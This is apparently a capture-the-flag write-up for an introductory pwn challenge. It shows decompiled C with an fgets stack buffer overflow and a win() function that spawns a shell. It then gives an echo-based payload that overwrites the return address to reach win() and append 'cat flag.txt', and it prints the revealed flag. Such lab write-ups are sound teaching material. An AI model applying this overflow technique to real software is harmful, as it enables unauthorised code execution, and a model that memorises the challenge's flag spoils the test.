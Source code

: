 ```yaml
---
title: Pwn1
date: 2023-06-10
tags:
  - pwn
---
```


## Description of the challenge

Welcome to the series of 3 pwn challenges!

Author: NoobMaster

## Solution

We open the binary in Ghidra and instantly notice the buffer overflow on ``fgets``. It reads 0x50 (80) bytes into a 64 bytes buffer. Given the name of the local variable ``local_48``, it means we have 0x48 bytes until the return address. So, we have 8 bytes of the return address to work with.

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_48 [64];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_48,0x50,stdin);
  system("cat fake_flag.txt");
  return;
}
```

Running ``checksec`` on the binary shows that it lacks a stack canary and is not a PIE. Another interesting function in Ghidra is ``win``, which calls ``system("/bin/sh")``. This is simply an introductory buffer overflow.

```c
void win(void)
{
  system("/bin/sh");
  return;
}
```

Collect the address for ``win``: ``0x0040124a``

Use the address to create the exploit:
```
$ python3 -c 'print("a" * 0x48)'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00' | ./pwn1
Would you like a flag?
n00bz{fake_flag}
Segmentation fault (core dumped)
```

Initially this seems like it doesn't work, but I think it's just because it doesn't properly redirect the streams. So let's add a command at the end of the output, the shell we open will receive it and execute it before closing.
```
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00cat flag.txt' | ./pwn1
Would you like a flag?
n00bz{fake_flag}
n00bz{I_like_.hidden}
Segmentation fault (core dumped)
```
Success! We can see the "real" flag printed! Trust me, that's exactly what the flag was.
